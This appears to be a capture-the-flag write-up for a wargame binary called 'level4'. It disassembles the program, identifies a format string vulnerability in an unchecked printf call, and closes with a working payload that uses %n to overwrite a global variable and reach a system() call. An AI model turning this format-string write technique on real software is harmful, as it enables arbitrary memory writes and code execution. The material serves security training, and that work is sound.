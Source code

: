 level4
======

Dissassembly
------------

To dissassemble the executable we can use objdump.
```sh
EXECUTABLE=./level4

objdump -M intel -d "$EXECUTABLE"
```

The main function looks like this:
```nasm
080484a7 <main>:
 80484a7:	55						push   ebp
 80484a8:	89 e5					mov    ebp,esp
 80484aa:	83 e4 f0				and    esp,0xfffffff0
 80484ad:	e8 a5 ff ff ff			call   8048457 <n>
 80484b2:	c9						leave
 80484b3:	c3						ret080484a7 <main>:
 80484a7:	55						push   ebp
 80484a8:	89 e5					mov    ebp,esp
 80484aa:	83 e4 f0				and    esp,0xfffffff0
 80484ad:	e8 a5 ff ff ff			call   8048457 <n>
 80484b2:	c9						leave
 80484b3:	c3						ret
```

It calls another function n:

```nasm
08048457 <n>:
 8048457:	55						push   ebp
 8048458:	89 e5					mov    ebp,esp
 804845a:	81 ec 18 02 00 00		sub    esp,0x218
 8048460:	a1 04 98 04 08			mov    eax,ds:0x8049804
 8048465:	89 44 24 08				mov    DWORD PTR [esp+0x8],eax
 8048469:	c7 44 24 04 00 02 00	mov    DWORD PTR [esp+0x4],0x200
 8048470:	00
 8048471:	8d 85 f8 fd ff ff		lea    eax,[ebp-0x208]
 8048477:	89 04 24				mov    DWORD PTR [esp],eax
 804847a:	e8 d1 fe ff ff			call   8048350 <fgets@plt>
 804847f:	8d 85 f8 fd ff ff		lea    eax,[ebp-0x208]
 8048485:	89 04 24				mov    DWORD PTR [esp],eax
 8048488:	e8 b7 ff ff ff			call   8048444 <p>
 804848d:	a1 10 98 04 08			mov    eax,ds:0x8049810
 8048492:	3d 44 55 02 01			cmp    eax,0x1025544
 8048497:	75 0c					jne    80484a5 <n+0x4e>
 8048499:	c7 04 24 90 85 04 08	mov    DWORD PTR [esp],0x8048590
 80484a0:	e8 bb fe ff ff			call   8048360 <system@plt>
 80484a5:	c9						leave
 80484a6:	c3						ret
```

Which in turn calls a function p, which uses printf to print our input:

```
nasm
08048444 <p>:
 8048444:	55						push   ebp
 8048445:	89 e5					mov    ebp,esp
 8048447:	83 ec 18				sub    esp,0x18
 804844a:	8b 45 08				mov    eax,DWORD PTR [ebp+0x8]
 804844d:	89 04 24				mov    DWORD PTR [esp],eax
 8048450:	e8 eb fe ff ff			call   8048340 <printf@plt>
 8048455:	c9						leave
 8048456:	c3						ret
```

We can see that there is a system call, but to reach it, a specific value needs to be set to 0x1025544.
```nasm
...
 804848d:   a1 10 98 04 08          mov    eax,ds:0x8049810
 8048492:   3d 44 55 02 01          cmp    eax,0x1025544
 8048497:   75 0c                   jne    80484a5 <n+0x4e>
   ...
 80484a0:   e8 bb fe ff ff          call   8048360 <system@plt>
 80484a5:   c9                      leave
 80484a6:   c3                      ret
```

The stack looks like this before calling p:
| Address | Type           | Size |
|---------|----------------|------|
| -0x218  | char \*fmt     |   4  |
| -0x210  | FILE \*stdin   |   4  |
| -0x20c  | size_t len     |   4  |
| -0x208  | char data[200] | 512  |
|  0x000  | \*EBP          |   4  |
|  0x004  | \*EIP          |   4  |

After calling p, the stack looks like this:
| Address | Type           | Size |
|---------|----------------|------|
| -0x018  | char \*fmt     |   4  |
| -0x004  | padding        |  20  |
|  0x000  | \*EBP          |   4  |
|  0x004  | \*EIP          |   4  |
|  0x008  | char \*fmt     |   4  |

The p function fetches the format string pointer from the previous stack-frame and passes it to the printf function.

In c, the procedure would look like this:
```c
size_t	len = 0x200;
FILE	*stdin = *(FILE**)0x8049804;

fgets(fmt, len, stdin);

printf(fmt);

if (*(int*)0x8049810 == 0x1025544)
	system(...);
```

Exploitation
------------

Using the previous technique, we can search for our buffer by printing the stack's data.
```sh
./level4 <<< 'AAAA char *fmt = %p; char *p_frame[32] = %p %p %p %p %p %p %p; size = %p; FILE* stdin = %p; char *system_arg = %p; char *buff[0] = %p'
```
```c
AAAA char *fmt = 0xb7ff26b0; char *p_frame[32] = 0xbffff7a4 0xb7fd0ff4 (nil) (nil) 0xbffff768 0x804848d 0xbffff560; size = 0x200; FILE* stdin = 0xb7fd1ac0; char *system_arg = 0xb7ff37d0; char *buff[0] = 0x41414141
```
We are able to reach the start of our buffer with 12 32-bit pointer conversions, which is equivalent to an offset of 0x30.

Knowing the offset, we can use printf's shorthand dollar notation to directly access the argument at the 12th position:
```sh
./level4 <<< 'AAAA %12$p'
```
```c
AAAA 0x41414141
```

If we place our address at the start of our buffer and use the %n modifier, we can overwrite it using an arbitrary value. To generate a string with the right length, we can use the field-width:
```sh
./level4 <<< $'\x10\x98\x04\x08%16930112x%12$n'
```
```c
...
b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
